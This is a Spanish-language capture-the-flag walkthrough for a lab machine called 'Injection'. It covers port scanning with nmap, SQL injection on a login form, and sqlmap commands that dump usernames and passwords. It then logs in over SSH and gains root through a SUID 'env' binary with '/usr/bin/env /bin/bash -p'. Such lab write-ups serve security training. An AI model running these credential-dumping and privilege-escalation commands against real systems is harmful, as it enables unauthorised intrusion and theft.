 # MÁQUINA INJECTION

Lo primero que habrá que hacer será realizar un escaneo de puertos usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Injection/foto.jpg)

Vemos que tenemos abiertos los puertos 80 y 22, por lo que vamos a ver el contenido de la página web:

![WEB](https://github.com/Isma-yo/photos/blob/main/Injection/foto2.jpg)

Nos encontramos con un panel de login, llamandose la máquina Injection, podemos probar si es vulnerable a un SQL Injection:

![INJ](https://github.com/Isma-yo/photos/blob/main/Injection/foto3.jpg)

Vemos que si que era vulnerable y obtenemos un usuario y contraseña que usaremos para conectarnos por SSH:

![CRE](https://github.com/Isma-yo/photos/blob/main/Injection/foto4.jpg)

# MANERA ALTERNATIVA

La otra forma de obtener las credenciales es usando el comando sqlmap:

```shell
sqlmap -u http://172.17.0.2 --dbs --batch --forms
```

![CRE](https://github.com/Isma-yo/photos/blob/main/Injection/foto5.jpg)

```shell
sqlmap -u http://172.17.0.2 --dbs --batch --forms
```

```shell
sqlmap -u http://172.17.0.2 -D register --tables --batch --forms
```

![DB](https://github.com/Isma-yo/photos/blob/main/Injection/foto6.jpg)

```shell
sqlmap -u http://172.17.0.2 -D register -T users --columns  --batch --forms
```

![TA](https://github.com/Isma-yo/photos/blob/main/Injection/foto7.jpg)

```shell
sqlmap -u http://172.17.0.2 -D register -T users -C username,passwd --dump --batch --forms
```

![PASSWD](https://github.com/Isma-yo/photos/blob/main/Injection/foto8.jpg)

Ahora accederemos por SSH usando esas credenciales:

![SSH](https://github.com/Isma-yo/photos/blob/main/Injection/foto9.jpg)

Si hacemos un sudo -l veremos que no podemos ejecutarlo ya que no esta instalado sudo. Lo que deberemos de hacer será ejeuctar el comando find / -perm -4000 2>/dev/null para ver que comandos tienen permisos especiales:

![FIND](https://github.com/Isma-yo/photos/blob/main/Injection/foto10.jpg)

El comando env está presente por lo que vamos a ver si podemos utilizarlo para escalar privilegios. Para ello iremos a la página de GTFOBins y buscaremos el env:

https://gtfobins.github.io/gtfobins/env/#suid

```shell
/usr/bin/env /bin/bash -p
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Injection/foto11.jpg)





